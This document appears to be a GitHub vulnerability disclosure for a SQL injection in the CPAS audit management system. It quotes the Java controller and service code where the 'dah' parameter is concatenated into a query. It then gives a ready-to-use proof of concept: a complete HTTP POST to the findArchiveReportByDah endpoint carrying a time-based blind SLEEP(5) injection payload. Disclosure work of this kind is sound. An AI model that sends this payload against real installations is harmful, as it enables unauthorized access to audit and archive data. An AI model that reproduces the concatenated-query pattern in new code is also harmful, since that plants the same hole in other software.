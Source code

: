 # CPAS-bug
CPAS audit management information system has SQL injection vulnerability

# Vulnerability code analysis

com/yonyou/aco/cpas/list/web/CpasListController.java  line: 1545
```
@RequestMapping({"/findArchiveReportByDah"})
@ResponseBody
public DataGridView<Map<String, String>> findArchiveReportByDah(@RequestParam(value = "pageNum", defaultValue = "0") int pageNum, @RequestParam(value = "pageSize", defaultValue = "10") int pageSize, @RequestParam(value = "sortName", defaultValue = "") String sortName, @RequestParam(value = "sortOrder", defaultValue = "") String sortOrder, @RequestParam(value = "dah", defaultValue = "") String dah) {
	DataGridView<Map<String, String>> page = new DataGridView<>();
	if (pageNum != 0) {
		try {
			pageNum /= pageSize;
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
	PageResult<Map<String, String>> pages = this.cpasListService.findArchiveReportByDah(pageNum + 1, pageSize, sortName, sortOrder, dah);
	if (pages != null) {
		page.setRows(pages.getResults());
		page.setTotal(pages.getTotalrecord());
	}
	return page;
}
```

com/yonyou/aco/cpas/list/service/impl/CpasListServiceImpl.java  line: 8763
```
@Override // com.yonyou.aco.cpas.list.service.ICpasListService
public PageResult<Map<String, String>> findArchiveReportByDah(int pageNum, int pageSize, String sortName, String sortOrder, String dah) {
	StringBuilder sb = new StringBuilder();
	sb.append("select c.ywmc_,c.ywmcName_,a.* from fd_cpashbggdsq c ");
	sb.append(" left join bpm_ru_biz_info b on c.id = b.ID_ ");
	sb.append(" left join FD_CPASbglb a on c.id = a.biz_id ");
	sb.append(" where b.DR_ = 'N' and b.STATE_ = '2' and c.dah = '" + dah + "' ");
	sb.append(" ORDER BY c.ts DESC");
	return this.cpasListDao.getPageData(pageNum, pageSize, sb.toString());
}
```

The CpasListServiceImpl.java file contains concatenated SQL statements, resulting in SQL injection

POC:
```
POST /cpasm4/cpasList/findArchiveReportByDah HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

dah=0' AND (SELECT 6451 FROM (SELECT(SLEEP(5)))oufm) AND 'lRBm'='lRBm
```

<img width="895" height="290" alt="图片" src="https://github.com/user-attachments/assets/be5366e0-1278-4eef-9786-f1b0cd4b04b9" />
